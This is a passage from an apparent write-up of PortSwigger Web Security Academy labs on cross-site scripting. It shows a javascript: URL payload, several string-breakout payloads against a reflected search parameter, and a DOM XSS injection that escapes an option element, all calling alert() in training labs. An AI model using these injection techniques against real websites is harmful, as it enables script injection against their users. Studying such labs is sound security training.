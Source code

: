 - Currently `https://www.random.com` used as a site and if `friend` (provided username) clicked we will be redirected there so basically what we need to do is use this payload in site section:

```html
javascript:alert('Hello friend')
```

#### Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded
- As it is written - to solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function.
- Let's search `FUZZ` and inspect the page we will find 3 occurances and one of them like this:

```html
<script>
    var searchTerms = 'FUZZ';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

- So what we need to search here to escape from the javascript:

```html
';alert('Hello friend');//
```

- Alternatively one of these:

```html
'-alert("Hello friend")-
'; alert("Hello friend"); var new_var='test
```

### XSS Practitioner practice in Portswigger Labs

#### Lab: DOM XSS in document.write sink using source location.search inside a select element
- Let's investigate a page and click on any product, notice that url became something like this:

```html
https://PUT_YOUR_LAB_ID_HERE.web-security-academy.net/product?productId=1
```
- Let's **inspect** a page - there you can find this:

```html
<select name="storeId">
    <option>London</option>
    <option>Paris</option>
    <option>Milan</option>
</select>
```

- So even we don't have a storeId parameter in our url but it is existing in the DOM, so we could try to escape `option` and use something like this to use it:

```html
&storeId=</option><script>alert('Hello+friend')</script>
```
